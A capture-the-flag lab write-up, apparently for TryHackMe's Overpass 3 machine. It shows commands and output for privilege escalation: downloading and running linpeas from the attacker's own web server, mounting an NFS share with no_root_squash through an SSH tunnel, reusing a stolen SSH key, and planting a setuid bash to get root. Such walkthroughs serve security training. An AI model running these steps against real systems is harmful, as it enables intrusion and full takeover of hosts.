 - We get linpeas in our machine `wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas_linux_amd64`
- We launch python http server `python3 -m http.server 80`
- We get it in our target using curl `curl http://10.13.22.56/linpeas_linux_amd64 --output linpeas`
- We make it executable `chmod +x linpeas`
- we launch it `./linpeas`
- There is a recent CVE `cve-2021-4034`
- But there is also this that seems interesting as linpeas highlight as a 95% PE vector
```
╔══════════╣ Analyzing NFS Exports Files (limit 70)
-rw-r--r--. 1 root root 54 Nov 18  2020 /etc/exports                                                                                                                                                           
/home/james *(rw,fsid=0,sync,no_root_squash,insecure)
```
- Let's have a look at [this documentation from hacktricks](https://book.hacktricks.xyz/linux-unix/privilege-escalation/nfs-no_root_squash-misconfiguration-pe)
- We are not able to mount the share so we need to check the how is nfs running:
```
[paradox@ip-10-10-4-129 ~]$ rpcinfo -p | grep nfs
    100003    3   tcp   2049  nfs
    100003    4   tcp   2049  nfs
    100227    3   tcp   2049  nfs_acl
```
- we could try to port forward `ssh paradox@10.10.4.129 -i private -L 2049:localhost:2049` and then mount the share
```
┌──(root💀kali)-[~/Documents/tryhackme/overpass3]
└─# mkdir nfs                                                                                                                                                                                              1 ⨯
                                                                                                                                                                                                               
┌──(root💀kali)-[~/Documents/tryhackme/overpass3]
└─# mount -v -t nfs localhost:/ nfs
mount.nfs: timeout set for Wed Mar 30 19:29:51 2022
mount.nfs: trying text-based options 'vers=4.2,addr=::1,clientaddr=::1'
```
- We now have access to the user flag and we also have the .ssh folder of james so we can use it to login as james 
```
┌──(root💀kali)-[~/…/tryhackme/overpass3/nfs/.ssh]
└─# ssh -i id_rsa james@10.10.4.129 
```
- It works
- Let's try to go further with the nfs misconfiguration
- For our attacking machine we run
```
cp /bin/bash nfs
chmod +s bash
```
- From our shell as jams we can now run
```
./bash -p
/home/james/bash: /lib64/libtinfo.so.6: no version information available (required by /home/james/bash)
/home/james/bash: /lib64/libc.so.6: version `GLIBC_2.33' not found (required by /home/james/bash)
```
- So we get this error we probably need another bash binary let's try with the one from the target machine.
- We copy it using scp to our attacking machine `scp -i .ssh/id_rsa james@10.10.4.129:/bin/bash .`
- Let's redo our chomd +s `chmod +s bash`
- We just need to `./bash -p` and it works!
```
bash-4.4# whoami
root
```